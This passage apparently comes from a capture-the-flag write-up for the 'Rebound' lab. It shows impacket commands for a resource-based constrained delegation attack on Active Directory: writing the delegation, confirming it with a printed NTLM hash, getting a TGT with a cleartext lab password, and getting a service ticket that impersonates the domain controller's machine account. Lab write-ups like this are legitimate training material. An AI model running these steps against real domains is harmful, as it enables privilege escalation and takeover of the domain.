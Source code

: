 ```shell
impacket-rbcd -no-pass -k 'rebound.htb/delegator$' -delegate-to 'delegator$' -delegate-from ldap_monitor -dc-ip dc01 -use-ldaps -action write 
```

![](Pasted%20image%2020240426011631.png)

We can confirm that this was successful by running `findDelegation` once again.

```shell
impacket-findDelegation 'rebound.htb/delegator$' -dc-ip 10.10.11.231 -k -hashes :43e9069a73081ecfcbe1514e1d4e3bc8
```

![](Pasted%20image%2020240426012243.png)

Next, we're going to request a TGT and then a Service Ticket for the `ldap_monitor` account with which we'll attempt to impersonate the `dc01$` machine account. We can't directly impersonate the Administrator account as it's marked as sensitive and cannot be delegated.

```shell
impacket-getTGT 'rebound.htb/ldap_monitor:1GR8t@$$4u' -dc-ip 10.10.11.231

export KRB5CCNAME=ldap_monitor.ccache 

impacket-getST -spn "browser/dc01.rebound.htb" -impersonate "dc01$" "rebound.htb/ldap_monitor" -k -no-pass 
```

![](Pasted%20image%2020240426012511.png)
